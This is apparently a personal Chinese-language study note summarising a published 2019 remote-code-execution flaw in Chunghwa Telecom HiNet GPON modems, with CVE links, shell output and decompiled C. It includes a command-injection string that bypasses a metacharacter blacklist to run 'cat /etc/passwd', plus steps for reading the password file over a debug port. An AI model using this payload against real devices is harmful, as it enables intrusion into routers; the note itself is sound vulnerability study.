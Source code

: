 ```yaml
---
date: 2025-03-06
publish: true
slug: dbe3ecb6-2964-4d12-b30a-3eb51cee75bf
tags:
- CS/Security
title: CVE 2019
uuid: 26aba0ab-c76e-4d9d-941d-1a24fa4a4a04
---
```

## [中華電信數據機遠端代碼執行漏洞 | Orange Tsai](https://blog.orange.tw/posts/2019-11-HiNet-GPON-Modem-RCE/)

HiNet GPON 韌體中託管在連接埠 3097 上的服務允許攻擊者隨機命令執行
一系列中華電信數據機的配置異常漏洞，引響約 25 萬台機器
相關的 CVE 漏洞編號:

- [CVE-2019-13411](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13411)
- [CVE-2019-13412](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13412)
- [CVE-2019-15064](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15064)
- [CVE-2019-15065](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15065)
- [CVE-2019-15066](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15066)

3097 連接埠提供了許多跟電信網路相關的指令，推測是中華電信給工程師遠端對數據機進行各種網路設定的除錯介面
用 nc 對 3079 port 下 `MISC SCRIPT &lt;path/to/file&gt;` 可以實施隨機檔案讀取
讀取 `/etc/passwd` 取得 root 密碼後用 ssh 登入機器

```sh
$ uname -a
Linux I-040GW.cht.com.tw 2.6.30.9-5VT #1 PREEMPT Wed Jul 31 15:40:34 CST 2019
[luna SDK V1.8.0] rlx GNU/Linux

$ netstat -anp | grep 3097
tcp        0      0 127.0.0.1:3097          0.0.0.0:*               LISTEN

$ ls -lh /usr/bin/omcimain
-rwxr-xr-x    1 root   root        4.6M Aug  1 13:40 /usr/bin/omcimain

$ file /usr/bin/omcimain
ELF 32-bit MSB executable, MIPS, MIPS-I version 1 (SYSV), dynamically linked
```

omcimain 是聽在 3079 port 的程式

```c
char *input = util_trim(s1);
if (input[0] == '\0' || input[0] == '#')
    return 0;
while (SUB_COMMAND_LIST[i] != 0) {
    sub_cmd = SUB_COMMAND_LIST[i++];
    if (strncmp(input, sub_cmd, strlen(sub_cmd)) == 0)
        break;
}
if (SUB_COMMAND_LIST[i] == 0 && strchr(input, '?') == 0)
    return -10;
// ...
char *BLACKLISTS = "|<>(){}`;";
while (BLACKLISTS[i] != 0) {
    if (strchr(input, BLACKLISTS[i]) != 0) {
        util_fdprintf(fd, "invalid char '%c' in command\n", BLACKLISTS[i]);
        return -1;
    }
    i++;
}
snprintf(file_buf,  64, "/tmp/tmpfile.%d.%06ld", getpid(), random() % 1000000);
snprintf(cmd_buf, 1024, "/usr/bin/diag %s > %s 2>/dev/null", input, file_buf);
system(cmd_buf);
```

經由逆向 omcimain 發現如過指令都沒有配對成功會執行上方程式碼

`notexisten? &amp;&amp; cat /etc/passwd` 可以繞過 BLACKLISTS 執行 `cat /etc/passwd`
